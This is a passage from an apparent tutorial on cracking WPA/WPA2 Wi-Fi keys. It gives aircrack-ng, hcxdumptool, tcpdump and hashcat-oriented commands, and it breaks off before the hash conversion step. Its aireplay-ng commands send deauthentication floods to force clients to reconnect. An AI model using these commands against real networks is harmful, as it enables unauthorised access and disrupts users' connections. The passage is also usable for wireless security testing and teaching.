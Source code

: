 Once you have captured the handshake, you can crack the WPA/WPA2 key using a
wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w wordlist.txt capture.pcap
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If
successful, it will display the WPA/WPA2 key in the terminal. Note that if the
ESSID is hidden, you will need to use the `-e` option to specify the ESSID when
cracking the key.

### Option 2 (harder but better)

A way faster and more successful alternative to the previous method is to use
`hcxdumptool` to capture the handshake or the PMKID and then crack it with
`hashcat`. This makes it more likely to succeed than the previous method since
we could only use the handshake with it, and this method allows us to use
`hashcat` to crack the hash which is way faster than `aircrack-ng`.

First, we need to do a dump using `tcpdump` :

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 $bssid or wlan addr3 ffffffffffff" -ddd > output.bpf
```

Then, we can use `hcxdumptool` to capture the handshake or the PMKID, and it is
mandatory to add band information to the channel number (e.g. 12a):

- band a: NL80211_BAND_2GHZ
- band b: NL80211_BAND_5GHZ
- band c: NL80211_BAND_6GHZ

Thus, you can use the following command:

```bash
band="a" # or b,c
sudo hcxdumptool -i "$interface" -c "$channel$band" --bpf=output.bpf -w output.pcapng
```

This will create a pcapng file with the captured packets, you need to wait for
either the EAPOL handshake symbolized by the '3' or the PMKID symbolized by the
'P' to have a + under them to know that you have captured one of them, allowing
you to try to crack the hash.

You can use the following command to deauthenticate a client and force it to
reconnect in another terminal:

```bash
# To broadcast:
sudo aireplay-ng --deauth 0 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 0 -a "$bssid" -c "$station" "$interface"
```

Now, we need to convert the pcapng file to the specific hash that `hashcat` can
use. To do this, we can use the following command:

